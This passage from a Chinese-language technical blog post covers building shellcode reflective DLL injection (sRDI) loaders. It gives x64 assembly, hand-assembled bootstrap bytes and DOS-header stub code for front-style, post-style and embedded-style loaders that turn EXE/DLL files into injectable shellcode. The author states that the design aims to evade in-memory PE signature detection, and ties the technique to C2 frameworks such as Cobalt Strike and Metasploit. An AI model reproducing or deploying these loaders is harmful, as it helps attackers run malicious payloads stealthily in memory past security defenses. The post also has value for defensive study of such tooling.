     ; 内存保护常量表（字节数组）
 ProtectionTable:
     db  01h     ; [0] PAGE_NOACCESS
     db  10h     ; [1] PAGE_EXECUTE
     db  02h     ; [2] PAGE_READONLY
     db  20h     ; [3] PAGE_EXECUTE_READ
     db  08h     ; [4] PAGE_WRITECOPY
     db  80h     ; [5] PAGE_EXECUTE_WRITECOPY
     db  04h     ; [6] PAGE_READWRITE
     db  40h     ; [7] PAGE_EXECUTE_READWRITE
 
 Get_Protect:
     pop rsi
     movzx r8d, byte ptr [rsi + rax]
 
 SetMemProtect:
     mov ecx,dword ptr [r12 + 0Ch]			
     add rcx,[rbp+16]									; lpAddress = 节的起始地址
     mov edx,[r12 + 10h]								; dwSize = 节的大小
     sub rsp,8
                                                                     ; flNewProtect
     mov r9,rsp												; lpflOldProtect 
     mov r10,0E3918276h								; kernel32 + VirtualProtect hash
     call GetProcAddressByHash
     add rsp,40												; 清除32字节影子空间+8字节的lpflOldProtect
     
 get_next_section1:
     add r12, 28h											; 下一个节头，一个节头28h字节
     dec r13d													; 节头数减一
     test r13d,r13d											; 检查是否为0
     jnz next_section1									; 如果节头数为0，则结束循环
```

这一部分的代码相当棘手，最开始的代码量非常庞大，用到了很多分支结构，最后优化了几天，最终达到上述代码效果。

要获取节的内存属性，就需要用到Characteristics字段，Characteristics是 `IMAGE_SECTION_HEADER` 结构体的成员，它定义了节区(Section)的访问权限，它位于节头偏移 `24h` 的位置。按照Windows的对于标志位的定义，第30位表示执行权限，第31位表示读权限、第32位表示写权限。

|  |  |  |
| --- | --- | --- |
| 标志值 | 宏定义 | 说明 |
| **0x20000000** | `IMAGE_SCN_MEM_EXECUTE` | 节区可执行 |
| **0x40000000** | `IMAGE_SCN_MEM_READ` | 节区可读 |
| **0x80000000** | `IMAGE_SCN_MEM_WRITE` | 节区可写 |

然后用Characteristics与 `IMAGE_SCN_MEM_EXECUTE`、`IMAGE_SCN_MEM_READ`、`IMAGE_SCN_MEM_WRITE` 按位相与，就能确定这个节内存保护属性的值了，并且将得到的标志位存储在栈上以备后续使用。接下来就是标志位进行组合的问题了，我们先获取executable的值，然后左移2位，接着读取writeable的值，然后左移1位，最后获取readable的值，并将这些值相加 `executable+writeable+readable` 就可以正确走到相应的分支，然后赋予 `flNewProtect` 相应内存保护属性了。

哈哈哈，不过上面的想法很快就被我下一个想法给否定掉了，因为它的代码量还是太大了。

在跑步的时候灵感又一闪，就想到了下面的方法。为什么Characteristics要单独和 `IMAGE_SCN_MEM_EXECUTE` 、 `IMAGE_SCN_MEM_READ` 和 `IMAGE_SCN_MEM_WRITE` 按位相与，看来是被SRDI给的C语言代码限制太深了，我直接保留第30、31、32位的值，其余位清零，然后右移29位，剩余值的本身所代表的标志位含义并未改变，第1位表示执行权限、第2位表示读权限、第3位表示写权限，以0代表没有这个权限，以1代表有这个权限，这样的标志位组合可以映射到相应的内存保护属性。

|  |  |
| --- | --- |
| 值 | 内存保护属性 |
| 000b=0 | PAGE\_NOACCESS（无权限） |
| 001b=1 | PAGE\_EXECUTE（可执行、不可读、不可写） |
| 010b=2 | PAGE\_READONLY（不可执行、可读、不可写） |
| 011b=3 | PAGE\_EXECUTE\_READ（可执行、可读、不可执行） |
| 100b=4 | PAGE\_WRITECOPY（不可执行、不可读、可写） |
| 101b=5 | PAGE\_EXECUTE\_WRITECOPY（可执行、不可写、可写） |
| 110b=6 | PAGE\_READWRITE（不可执行、可读、可写） |
| 111b=7 | PAGE\_EXECUTE\_READWRITE（可执行、可读、可写） |

怎么映射？其实很简单，我们将 `flNewProtect` 可取的值按顺序定义成一个字节数组，然后以值作为某个元素的索引，这样就可以映射到相应的 `PAGE_*` 常量。如011就表示映射到索引为3的元素`PAGE_EXECUTE_READ`。

在汇编代码中，我在.text节定义了一个内存保护常量表 `ProtectionTable`，通过 `call Get_Protect` 将程序的执行流重定向到 `Get_Protect` 标签的代码，并在栈上留下内存保护常量表的地址。常量表如下

```
ProtectionTable:
db  01h     ; [0] PAGE_NOACCESS
db  10h     ; [1] PAGE_EXECUTE
db  02h     ; [2] PAGE_READONLY
db  20h     ; [3] PAGE_EXECUTE_READ
db  08h     ; [4] PAGE_WRITECOPY
db  80h     ; [5] PAGE_EXECUTE_WRITECOPY
db  04h     ; [6] PAGE_READWRITE
db  40h     ; [7] PAGE_EXECUTE_READWRITE
```

`Get_Protect` 标签的代码通过弹出栈上的内存保护常量表的地址，然后根据公式：`[基址+索引]` 的方式正确定位到当前节的内存保护属性值。

至此整个设计思路就结束了，代码量大幅降低的同时领会到了权限位映射的数学之美啊。还有一点这也是我得意之作（骄傲的昂首挺胸）。

当然这绝对不是最优的方法，也期待各位师傅们补充。

接下来我们调式看看， `.text` 节的内存保护属性应该为：0x60000020



0x60000020，其中第30、31、32分别为1，1，0，表示可执行、可读、不可写。我们看右移29位后的rax寄存器。如下图所示rax寄存器中，第1、2、3位分别位1，1，0，刚好验证了我前面所说：标志位的含义并未改变。



按照正常流程，我们应该会读取 `ProtectionTable` 属性常量表索引为3的元素 `PAGE_EXECUTE_READ（20h）`



## 1.7 ExecuteTLSCallbacks

TLS回调函数是在特定事件发生时执行自定义代码，比如说进程/线程加载/卸载时，主要是完成初始化/清理资源、反调试等。在4种reason中必须执行的是`DLL_PROCESS_ATTACH` 回调（C++全局构造器等依赖此）

对应大部分PE文件而言只需要完成执行TLS回调，而不用TLS数据处理，缺少数据处理只会影响使用线程局部变量的特定模块。

**⚠注意**：还有一点需要关注是我使用MSVC编译测试DLL的好像不支持TLS回调？这一块去暂时没搞懂，所以我换了Clang-cl来编译测试DLL。

`ExecuteTLSCallbacks` 完整代码如下

```
    mov rax,[rbp+24]					 	; 新NT头
     lea rax,[rax + 88h + 72]			 	; TLS 数据目录项地址	
 
     ; 检查TLS目录大小
     cmp dword ptr [rax+4],0			; 比较 TLS 目录大小字段 
     je entry							 			; 如果大小为0，跳转到入口点 (无TLS回调)	
 
     ; 获取TLS目录VA (tlsDir)
     mov edx,dword ptr [rax]			; TLS目录的RVA
     add rdx,[rbp+16]					 	; TLS目录的VA
 
     ; 获取回调函数数组 (callback)
     mov rdi,[rdx+3*8]					 	; 回调函数数组的首地址AddressOfCallBacks  
 
 next_tlscallback:	
     cmp qword ptr [rdi],0				; 检查当前回调函数指针是否为NULL
     je entry							 			; 若为NULL（数组结束），跳转到入口点
     
     mov rax,[rdi]						 		; 当前回调函数的地址
     mov rcx,[rbp+16]					 	; 参数1: 模块基址
     mov edx,1							 		; 参数2: DLL_PROCESS_ATTACH (值=1)
     xor r8d,r8d							 		; R8  = 参数3: NULL
     call rax							 			; 调用TLS回调函数
 
 get_next_tlscallback:
     add rdi,8							 			; 移动到下一个函数指针
     jmp next_tlscallback				 	; 继续循环
```

大致步骤如下

1. 定位到数据目录的TLS项
2. 获取TLS目录的虚拟地址(VA)
3. 获取回调函数数组地址
4. 循环遍历回调函数数组

**（1）定位到数据目录的TLS项**

TLS数据目录在 `OptionalHeader.DataDirectory` 数组中，它在数组索引为9的位置，故TLS数据目录在NT头偏移 `4（Signature）+20（IMAGE_FILE_HEADER）+ 112 + 9*8 =208=0D0h` 的位置。

**（2）获取TLS目录的虚拟地址(VA)**

请别搞混淆了，这里是TLS目录 `TLS_DIRECTORY` 而不是 TLS数据目录 `TLS_DATA_DIRECTORY`

TLS数据目录的 `VirtualAddress` 字段记录着TLS目录的RVA，根据这个字段然后加上基址就可以得到TLS目录的VA

**（3）获取回调函数数组地址**

首先我们来看看TLS目录的数据结构

```
typedef struct _IMAGE_TLS_DIRECTORY64 {
    ULONGLONG StartAddressOfRawData;
    ULONGLONG EndAddressOfRawData;
    ULONGLONG AddressOfIndex;         // PDWORD
    ULONGLONG AddressOfCallBacks;     // PIMAGE_TLS_CALLBACK *;
    DWORD SizeOfZeroFill;
    union {
        DWORD Characteristics;
        struct {
            DWORD Reserved0 : 20;
            DWORD Alignment : 4;
            DWORD Reserved1 : 8;
        } DUMMYSTRUCTNAME;
    } DUMMYUNIONNAME;

} IMAGE_TLS_DIRECTORY64;
```

这里最关键的字段就是 `AddressOfCallBacks`，它记录着回调函数数组的首地址，其本身就是一个VA，不是RVA。

可以很容易的计算出 `AddressOfCallBacks` 位于TLS目录偏移 `8（StartAddressOfRawData）+8（EndAddressOfRawData）+8（AddressOfIndex）=24=18h` 的位置

**（4）循环遍历回调函数数组**

有了回调函数数组的首地址，我们就可以去获得其记录着的回调函数指针，执行回调函数了，这个数组以 `NULL` 指针结尾。

回调函数形如下面的结构

```
; 回调函数原型: 
;   VOID CALLBACK TlsCallback(
;       PVOID DllHandle,    // RCX
;       DWORD Reason,       // RDX
;       PVOID Reserved      // R8
;   );
```

设置好参数，确保按数组中的顺序依次执行回调函数就可以了，其他的也没什么好说的了。

调式看看，在测试DLL中，我只编写了一个回调函数，所以回调函数数组只有一个函数指针。



执行TLS回调



## 1.8 GoToEntry

`GoToEntry`完整代码

```
;-------------------------------------------------------------------
; 根据EXE或DLL相应的特征调用入口点
; GoToEntry
;-------------------------------------------------------------------
entry:
    mov  rsi, [rbp+24]							; 获取PE头地址
    mov  ax, word ptr [rsi+16h]			; 读取Characteristics字段
    test ax, 2000h								; 检查是否为DLL (0x2000)
    jz   is_exe										; 非DLL则跳转EXE处理

    sub rsp,32
    mov ebx,dword ptr [rsi + 28h]		; 调用DLL入口点 RVA
    add rbx,[rbp+16]							; 调用DLL入口点 VA
    mov rcx,[rbp+16]
    mov rdx,1
    xor r8d,r8d
    call rbx

    add rsp,40
    ret

is_exe:
    mov ebx,dword ptr [rsi + 28h]		; 调用EXE入口点 RVA
    add rbx,[rbp+16]							; 调用EXE入口点 VA
    call rbx
    pop rax
    ret
```

这一步很简单，就是根据PE文件是exe还是DLL，调用其入口点。如何分辨文件的类型？其实还是用到了 `IMAGE_FILE_HEADER.Characteristics` 字段，它位于NT头偏移 `4（Signature）+2（Machine）+2（NumberOfSections）+4（TimeDateStamp）+4（PointerToSymbolTable）+4（NumberOfSymbols）+2（SizeOfOptionalHeader）=22=16h` 处

⚠**注意**：不要跟上文的 `IMAGE_SECTION_HEADER.Characteristics` 搞混淆了！

|  |  |  |  |
| --- | --- | --- | --- |
| 文件类型 | 典型值 | 二进制分解（关键位） | 含义说明 |
| EXE | `0x010F` | `0000 0001 0000 1111` → ​**​无​**​ `0x2000` | 含可执行标志，非DLL |
| DLL | `0x210E` | `0010 0001 0000 1110` → ​**​含​**​ `0x2000` | 含DLL标志+可执行标志 |

为什么要预留32字节的栈空间和为什么前置式RDI和后置式RDI的 `GoToEntry` 不一致，下文 `2.2 一些注意事项` 和 `3.2 一些注意事项` 会给出原因。

典型的EXE入口点函数为 `void mainCRTStartup(void)`，DllMain原型为 `BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)`

一起准备就绪后，我们就要调用PE文件的入口点了！EXE和DLL的入口点RVA都存储在了 `OptionalHeader.AddressOfEntryPoint` 这个字段里，它位于NT头偏移 `4（Signature）20（IMAGE_FILE_HEADER）+16 =40=28h` 的位置。

# 二、前置式RDI（Front-Style RDI）

## 2.1 原理

现在，我们已经完成了ReflectLoader的汇编的编写，下一步就是根据RDI的位置完成二种不同的的SRDI，最后再介绍一种改良型的RDI。

首先介绍的是前置式RDI，其核心特点是**ReflectLoader​**​独立置于PE文件，​**​位于 EXE/DLL数据之前**。这种结构设计使得注入后的内存块起始位置就是可执行代码，可以直接作为线程入口点执行。不过我们需要编写一段引导程序，位于最开头，是一小段机器码，主要作用就是从当main函数，负责

1. **保存非易性寄存器**
2. **计算DLL的位置**
3. **切换堆栈，预留栈空间，计算ReflectLoader的位置，并调用**
4. **恢复到调用ReflectiveLoader之前的栈空间和寄存器状态**



**（1）保存非易性寄存器**

在x64调用约定中，调用者自己保存易失性寄存器（如果有需要的话），而被调用者需要保存非易失性寄存器RBX, RBP, RDI, RSI, R12-R15，引导程序需要先将这些寄存器的值压入栈，等 `ReflectiveLoader` 返回后再恢复。

**（2）计算DLL的位置**

在构建最终的 SRDI Shellcode 块时，可以在引导程序中硬编码一个偏移量（offset），指向EXE/DLL相对于引导程序起始位置的偏移。EXE/DLL地址 = `当前 IP + offset`。可以通过 `call 00 00 00 00` 将程序的执行流重定向到下一条指令，并在栈上留下下一条指令的地址，有了这个指令的地址就可以计算出DLL的位置了。

可以看到下图，我们通过 `call 00 00 00 00` 跳转执行到pop rax，且会在栈上留下pop rax指令的地址，然后执行完pop rax后，rax = pop rax指令的地址，只要知道当前的内存位置，又因为偏移量是不变的，就可以通过偏移计算出EXE/DLL的在内存位置。

在前置式RDI中，EXE/DLL的偏移即 `引导程序的大小-pop rax在引导程序的偏移 + SRDI的大小`



```
+-------------------+-------------------+-------------------+
|   已写入的引导程序  |  剩余引导程序空间  |      DLL数据            |
+-------------------+-------------------+-------------------+
^                                 ^                                ^
|                                  |                                |
引导程序起始        当前RAX位置                DLL起始位置
```

不如调式看看，这样直观一点，此时dllOffset的值为860，请记住这个值。



我们在windbg上调式shellcode，执行完引导程序的pop rax。



查看rax的值，刚好为`pop rax`指令的地址



当前地址+dll偏移



可以看到很明显的 `MZ` 魔术值，这是PE文件的特征。



现在有了EXE/DLL的地址，我们就应该将其传递到 `ReflectiveLoader`，在前面我说过，我在编写 `ReflectiveLoader` 时有如下约定

```
; [rbp+8] = 旧DOS头地址（基址）
; [rbp+16] = 新DOS头地址（基址）
; [rbp+24] = 新NT头地址
```

其中 `[rbp+8] = 旧DOS头地址` 是由引导程序完成，而且分配空间栈空间给这三个值也由引导程序完成，而后续的两个值由 `ReflectiveLoader` 自己设置。当然这样的约定并不是太好，后续我会优化，现在最重要的是实现！

我这里做调式的原因是告诉各位师傅当你不确定偏移量是否正确的时候就应该用Windbg（我最喜欢用windbg了(◍•ᴗ•◍)❤）和x64/32dbg去动态调式shellcode，而且很多问题是我们在编写bootstrap和stub时不能全面考虑到的，只有通过动态调式才能找到问题所在。

还有一点我的建议是别用其他语言编写测试loader，用C+VS+windbg多方便，这只是我的经验之谈，不代表一定是正确的。

**（3）切换堆栈，预留栈空间，计算ReflectLoader的位置，并调用**

首先要切换堆栈，这是必要的，其次要预留24字节的栈空间，这是因为我在编写 `ReflectiveLoader` 约定的，接着将上一步获得的EXE/DLL的基址传递到 `[rbp+8]` 即可，对应的指令是`mov qword ptr [rbp+8], rax`

最后就是设置 `ReflectiveLoader` 的偏移了，`ReflectiveLoader` 与引导程序非常近，其偏移可以直接硬编码到指令中，然后通过 `call offset` 跳转到 `ReflectiveLoader` 执行完成PE文件的加载，怎么计算偏移相信各位师傅应该是明白了，这里不过多解释。

**（4）恢复到调用ReflectiveLoader之前的栈空间和寄存器状态**

恢复非易失性寄存器RBX, RBP, RDI, RSI, R12-R15，恢复栈指针到调用 `ReflectiveLoader` 之前的状态，确保引导程序能够正确的返回，不发生什么异常（比如说以错误的的值作为返回地址而发生的异常）。

引导程序部分C语言，完整代码在github上

```
uint8_t* finalcode = NULL;
uint8_t bootstrap[59];
int bootstrapSize = 58;
size_t finalSize = 0;
uint8_t* dllBytes = NULL;
size_t dllSize = 0;

// 构建引导代码
int index = 0;
bootstrap[index++] = 0xFC; // cld

/*
    ; 保存非易失性寄存器
    push rbx
    push rbp
    push rsi
    push rdi
    push r12
    push r13
    push r14
    push r15
*/
uint8_t pushRegisters[] = { 0x53, 0x55, 0x56, 0x57, 0x41, 0x54, 0x41, 0x55, 0x41, 0x56, 0x41, 0x57 };
memcpy(bootstrap + index, pushRegisters, sizeof(pushRegisters));
index += sizeof(pushRegisters);

// call next instruction
bootstrap[index++] = 0xE8;
bootstrap[index++] = 0x00;
bootstrap[index++] = 0x00;
bootstrap[index++] = 0x00;
bootstrap[index++] = 0x00;

// 计算DLL偏移量
size_t rdiShellcodeSize = sizeof(rdiShellcode64);
uint32_t dllOffset = bootstrapSize - index + rdiShellcodeSize;

// pop rax
bootstrap[index++] = 0x58;

// add rax, <Offset of the DLL>
bootstrap[index++] = 0x48;
bootstrap[index++] = 0x05;
pack(dllOffset, bootstrap + index);
index += 4;

// mov rbp, rsp
bootstrap[index++] = 0x48;
bootstrap[index++] = 0x8B;
bootstrap[index++] = 0xEC;

// sub rsp, 18h
bootstrap[index++] = 0x48;
bootstrap[index++] = 0x83;
bootstrap[index++] = 0xEC;
bootstrap[index++] = 0x18;

// mov qword ptr [rbp+8], rax
bootstrap[index++] = 0x48;
bootstrap[index++] = 0x89;
bootstrap[index++] = 0x45;
bootstrap[index++] = 0x08;

// call ReflectiveLoader
bootstrap[index++] = 0xE8;
uint8_t callOffset = bootstrapSize - index - 4;
bootstrap[index++] = callOffset;
bootstrap[index++] = 0x00;
bootstrap[index++] = 0x00;
bootstrap[index++] = 0x00;

// add rsp, 18h
bootstrap[index++] = 0x48;
bootstrap[index++] = 0x83;
bootstrap[index++] = 0xC4;
bootstrap[index++] = 0x18;

/*
    ;-------------------------------------------------------------------
    ; 恢复到调用ReflectiveLoader之前的栈空间和寄存器状态
    ;-------------------------------------------------------------------
        add rsp,24
        pop r15
        pop r14
        pop r13
        pop r12
        pop rdi
        pop rsi
        pop rbp
        pop rbx
        ret
*/
uint8_t popRegisters[] = { 0x41, 0x5F, 0x41, 0x5E, 0x41, 0x5D, 0x41, 0x5C, 0x5F, 0x5E, 0x5D, 0x5B, 0xC3 };
memcpy(bootstrap + index, popRegisters, sizeof(popRegisters));
index += sizeof(popRegisters);
```

## 2.2 一些注意事项

⚠**注意**：这些都是我在实现前置式RDI中出现的问题，并解决的，如果各位师傅看不懂，或者师傅觉得有误导的可以不看。

①在实际的探索中，我发现当程序的执行流转到引导程序的第一个指令时，RSP必定以8结尾，指向返回地址，所以RSP不必按16字节对齐，即 `and rsp, 0FFFFFFFFFFFFFFF0h`，这是为了引导程序能够正常返回。

我测试了大部分能够执行shellcode的方法来执行前置式RDI生成的shellcode，比如说**创建线程、创建远程线程、APC注入、回调函数、函数指针**等常规的方法都有上述的规律，即RSP必定以8结尾，能够正常返回，但也有少部分能够正常执行但无法返回的情况，比如**创建纤程**、**创建线程池**。

②执行到引导程序时RSP必定以8结尾，而在执行 `保存非易性寄存器` 这一步操作时，push指令执行了8次，RSP还是以8结尾，但执行分配24字节的栈空间后，即 `sub rsp, 18h`，RSP以0结尾，再执行 `call ReflectiveLoader` 之后，RSP以8结尾，如果不填充8字节的数据到栈上，这会导致后续调用 `GetProcAddressByHash` 时发生错误。

采用函数指针的方式执行生成后的shellcode，执行到引导程序时，RSP如下图



执行到SRDI后，RSP如下图所示。



在不知道那一篇文章我说过，我编写的 `GetProcAddressByHash` 函数有一个要求，就是调用前，RSP一定要以16字节对齐，即以0结尾。所以我在代码中增加了一个填充对齐指令 `push rax`，之后呢只用清理 `GetProcAddressByHash` 函数产生的32字节的影子空间和某些自定义函数存放在栈上的值即可保证RSP以16字节对齐。

③在最初的前置式RDI中，第一个指令是对齐填充指令 `push rax`（上文有说），是为了确保调用 `GetProcAddressByHash` 不出错。

执行完SRDI后，程序不能正常返回，而是直接抛出了异常，我在跟进DLL内部时发现，有一段代码如下所示，通过将rsp的值移到rax，将rax作为栈顶指针，然后往上20h字节进行参数存储操作。

```
00000226`6d9a15e4 488bc4           mov     rax, rsp
00000226`6d9a15e7 48895820         mov     qword ptr [rax+20h], rbx
00000226`6d9a15eb 4c894018         mov     qword ptr [rax+18h], r8
00000226`6d9a15ef 895010           mov     dword ptr [rax+10h], edx
00000226`6d9a15f2 48894808         mov     qword ptr [rax+8], rcx
```



如果没有在调用DLL入口点前预留32字节的栈空间，执行到 `mov rax, rsp` 指令时，从RSP的值往上16字节如下

```
0000002855B5F998      返回到srdi中的地址（RSP指向此处）
0000002855B5F9A0		 18 17 9A 6D 26 02 00（填充对齐）
0000002855B5F998		 返回到引导程序中的地址
```

很明显，如果没有在调用DLL入口点前添加32字节的栈空间给DLL内部使用，**会覆盖掉返回到引导程序的地址**，进而导致出现错误（能正常执行DLL逻辑和返回到srdi，但无法返回引导程序），所以需要进行修改。

EXE程序好像不怎么影响，也不用预留栈空间？

④执行完DLL后，我们需要清理之前为DLL分配的32字节的空间+最开始填充的8字节数据，这样RSP才能正确指向返回地址（引导程序）。



这个返回地址指向引导程序中的 `call ReflectiveLoader` 的下一条指令。



# 三、后置式RDI（Post-Style RDI）

## 3.1 原理

**Stub的概念**：首先，这里会介绍一个stub的概念， Stub 是一段**小型、自包含的机器代码**。它的核心任务是为后续的操作**搭建桥梁**或**准备环境**（当然很多情况下stub和bootstrap可以视为一个东西），就像我们调用kernel32!LoadLibraryA，真正的函数体并不在kernel32模块中，而是在 `ntdll.dll` 中的底层实现函数 (如 `LdrLoadDll`)，所以kernel32!LoadLibraryA它本质上是一个 **“系统 API Stub”**，如下图。



现在，我们介绍另一种SRDI的实现方式——后置式RDI，故名思意，**其SRDI是拼接在PE文件的末尾**，而与前置式不同点在于我们不需要引导程序，而是将DOS头部当作一个stub存根，将程序的执行流重定向到末尾的SRDI。当然这不是唯一实现后置式RDI的方式，还有另一种方式是需要引导到程序，且不破坏DOS头，与前置式RDI一样，引导程序+PE文件+SRDI形成一个统一的整体，这个方式我就不介绍了。

了解过PE文件结构的师傅都明白，每个PE文件由DOS头、NT头、其余头部和文件体组成，现如今DOS 头部 (`IMAGE_DOS_HEADER`) 的绝大部分字段确实已经失去了它们最初设计时的功能意义。它们的存在主要是为了**历史兼容性**和**文件格式的完整性**，实际仅需两个字段：

1. `e_magic`（MZ标志）：传统加载器入口标识
2. `e_lfanew`：指向NT头的偏移量

其他的字段可以随意修改，甚至连e\_magic字段我们都可以不用，我们通过 `当前位置+偏移` 的方式定位到PE文件的基址，而不需要在ReflectiveLoader函数中通过回溯机制找到DOS头的魔术值 `MZ` ，进而确定DLL基址，这样就可以消除部分PE特征。

## 既然可以修改DOS头部中的大多数字段，那么就编写一段stub存根（可以执行的机器码），然后覆盖掉DOS头部，这个stub主要作用就是找到SRDI的位置并调用它，然后SRDI完成PE文件的映射操作，这样一个完整的后置式RDI生成的shellcode如下所示。 ```

## DOS头（包含stub）

## PE文件的其他部分

```
    SRDI
```

```

后置式RDI的执行流程


我翻看了petoshellcode的main.cpp： [pe_to_shellcode/pe2shc/main.cpp at master · hasherezade/pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode/blob/master/pe2shc/main.cpp)，这个项目的重定位代码（在本文中称为stub存根）是保留 `4d5a` 魔术值，巧妙的将其作为指令，然后计算出SRDI的位置并调用它。下面是petoshellcode项目中给出的stub存根。
```go
BYTE redir_code64[] = "\x4D\x5A" //pop r10
"\x45\x52" //push r10
"\xE8\x00\x00\x00\x00" //call <next_line>
"\x59" // pop rcx
"\x48\x83\xE9\x09" // sub rcx,9 (rcx -> Image Base)
"\x48\x8B\xC1" // mov rax,rcx 
"\x48\x05" // add eax,
"\x59\x04\x00\x00" // value
"\xFF\xD0" // call eax
"\xc3"; // ret
```

就如上文所说到的，在如今的安全防护日益严峻的情况下，为规避内存中PE特征检测（如 `4D5A` 魔术值），同时延续 `pe_to_shellcode` 项目的核心思路，以下是技术改进方案及实现要点，结合内存加载与特征隐藏技术。

⚠**注意**：这并不是唯一的stub，只要符合stub小于DOS头部大小，且不覆盖 `e_lfanew` 字段的值，想怎么写就怎么写。

**后话**：当我检查这篇文章的时候，我发现 `pop rax` 和 `push rax` 应该是有点多余了>.<，不过工具都做出来来，就懒的改了，等下一次更新再说吧。

```
pop rax							; 弹出返回地址
push rax							; 保存返回地址
call 00000000 				; 下一条指令
pop rcx							; 弹出pop rcx指令的地址
sub rcx,7							; pop rcx指令的地址 - 7 的位置就是PE文件的基址
mov rax,rcx					; 将rcx的值赋给rax，rcx的值继续保留
add rax,<srdi offset>		; 定位SRDI
call rax							; 调用SRDI
ret									; 返回
```

相应的机器码如下

```
58													// pop rax
50													// push rax
E8 00 00 00 00								// call 00000000
59													// pop rcx
48 83 E9 07									// sub rcx,7
48 8B C1											// mov rax,rcx
48 05 <srdi offset,占4个字节>	    // add rax,offset
FF D0							    				// call rax
C3								    				// ret
```

接下来就是将stub存根覆盖掉DOS头，下图就是未修补的DOS头。



下图是修补后的DOS头。



## 3.2 一些注意事项

后置RDI的shellcode形式与前置式RDI的shellcode在功能上相差不大，主要的差别就是下面列举的两点。

①stub只从当调用SRDI的角色，因为我们要严格控制stub的大小，所以**保护寄存器状态、恢复到调用ReflectiveLoader之前的栈空间和寄存器状态等**代码移到了RDI里面。后置RDI主要是多了下面的两个操作。





②入口点做了部分修改，主要是因为后置式RDI中，执行完入口点后的下一步是 `恢复到调用ReflectiveLoader之前的栈空间和寄存器状态` 操作，主要是因为涉及到栈操作，不好与前置式RDI形成统一的 `GoToEntry` 代码，具体细微的差异就留给各位师傅对照着前置式RDI来细细体会了。



# 四、内嵌式RDI（Embed-Style RDI）

内嵌式RDI是一种巧妙地将加载器Stub嵌入到目标DLL本身开头的反射式注入技术，因其开发/使用门槛低，现有工具链成熟，适合快速作战被大量C2广泛使用，如MSF和CS，虽说它的特征很明显，需要 `"MZ"` 签名用于基址查找，并**强制要求ReflectiveLoader作为导出函数**，以便外部脚本能定位其文件偏移并写入Stub，即使这样它也是一种值得学习和使用的方法。

**目标**：将ReflectiveLoader的Stub代码和DLL本身融合成一个单一的可执行映像（可以算作shellcode了），该shellcode同时包含Stub和DLL的有效载荷。

内嵌式RDI的原理和后置式RDI类似，也是需要编写一段stub，覆盖掉DOS头部，然后调用ReflectiveLoader函数，核心不同点如下

1. **需要保留** `4d5a` **魔术值，将其作为指令**，因为ReflectiveLoader需要通过回溯找到 `"MZ"` 签名和 `PE00` 签名，进而确定DLL基址，当然这一步还可以继续优化，消除PE特征。
2. **ReflectiveLoader必须作为DLL的导出函数**，这是此项技术的核心中的核心，然后通过一个脚本找到ReflectiveLoader的文件偏移，将其偏移值填入到stub中。
3. **导出名可混淆**，ReflectiveLoader的名字不要求是“ReflectiveLoader”，也可以换成其他的名字，比如“HahaLoader”，这也是CobaltStrike中的profile提供的消除部分特征的方法。
4. **只支持DLL**，因为只有DLL才能导出函数！
5. **不能正确返回**，暂时无优化方案。

内嵌式RDI的执行流程



先看看stub长什么样子

```
pop    r10											; 弹出返回地址
push   r10											; 返回地址压栈
call   0													; 调用下一条指令，并在栈上留下一条指令的地址
pop    rbx											; 弹出当前指令的地址
add rbx,<RDIOffset-9>						; 计算出ReflectiveLoader函数的地址
push   rbp											; 保存栈底指针
mov    rbp, rsp									; 切换堆栈
call     rbx											; 调用ReflectiveLoader函数
```

对应的机器码

```
4D 5A
41 52
E8 00 00 00 00
5B
48 81 C3 <RDIOffset，占4字节>
55
48 89 E5
FF D3
```

1. 可以看到，我们将魔术值 `MZ（4D 5A）` 巧妙的当作指令 `pop r10`（x64架构），并没有破坏DOS头的签名，故ReflectiveLoader能够正常工作，至于stub后续的指令是可以覆盖掉剩余的DOS头字段。
2. **在stub中切换堆栈是有必要的**，不然会报错，但是调用ReflectiveLoader后并没有还原堆栈的代码，导致由 `push rbp` 指令存放在栈上的值无法清理，进一步导致无法返回（能正常执行DLL，不报错，会一直卡着），直接在stub中还原堆栈也不行，具体哪里出错了我也不想搞懂，累了。

接下来说说如何寻找ReflectiveLoader的文件偏移，首先我们的反射DLL并不由系统加载至内存，当我们将其作为shellcode执行时，它在内存中的还是以磁盘文件的形式布局，而导出表记录的是导出函数ReflectiveLoader的RVA，为了能够调用到未按内存形式映射的DLL的导出函数ReflectiveLoader，需要将RVA转成文件偏移。当然这个转换是有公式的，如下。  
`文件偏移 = 节区文件起始地址（PointerToRawData） + （RVA - 节区虚拟起始地址（VirtualAddress））`

解释一下这个公式：

1. `(RVA - VirtualAddress)`

* 计算目标地址在**节内的相对偏移**
* 无论内存形式还是文件形式，**节内数据的相对位置不变**

2. `节区文件起始地址（PointerToRawData）` + `节内的相对偏移相对偏移` = ReflectiveLoader在PE文件中的偏移

因为ReflectiveLoader的文件偏移是基于PE文件基址的，所以计算出ReflectiveLoader的文件偏移还需要减9，由于 `rbx` = `pop rbx指令的地址`，因此，需要减去pop rbx之前的指令所用字节数 `4D 5A 41 52 E8 00 00 00 00`。

寻找ReflectiveLoader的文件偏移python脚本用到@idiotc4t师傅提供的代码：[ReflectiveDLLInjection变形应用 | idiotc4t's blog](https://idiotc4t.com/defense-evasion/reflectivedllinjection-variation)。顺便提一嘴，我是看@idiotc4t的文章入门windows安全对抗这块的，这位师傅是真的很厉害。

当然我也有C和Go语言版本的寻找ReflectiveLoader的文件偏移代码，写起来相当麻烦，感兴趣的师傅可以自己去看看。

# 五、测试

在这里对二种SRDI和一种改良型RDI进行测试，首先分为概念验证，主要看是否能成功的将测试DLL和测试EXE转换shellcode，并执行。第二部分就是进行实战检验，测试该工具是否有实战价值。

**测试环境**：

1. win11（物理机）
2. win7、win10（虚拟机）
3. Windows Sever 2012、2016（虚拟机）

⚠**注意**：编译器（MSVC、Clang、MinGW、intel c++ compiler）和编译模式（Debug和Release）的选择会影响测试的结果。

**测试DLL和EXE（当然在github上也有）**：

测试dll

```
#include <windows.h>

// 1. 声明 TLS 回调函数
VOID NTAPI TlsCallback(PVOID DllHandle, DWORD Reason, PVOID Reserved);

// 2. 使用链接器指令将 TLS 回调放入特定段
#ifdef _WIN64
    #pragma comment (linker, "/INCLUDE:_tls_used")  // 64 位需要
    #pragma comment (linker, "/INCLUDE:pTlsCallback")
#else
    #pragma comment (linker, "/INCLUDE:__tls_used") // 32 位需要
    #pragma comment (linker, "/INCLUDE:_pTlsCallback")
#endif

// 3. 创建 TLS 目录
#pragma data_seg(".CRT$XLB")
EXTERN_C PIMAGE_TLS_CALLBACK pTlsCallback = TlsCallback;
#pragma data_seg()

// 4. TLS 回调函数实现
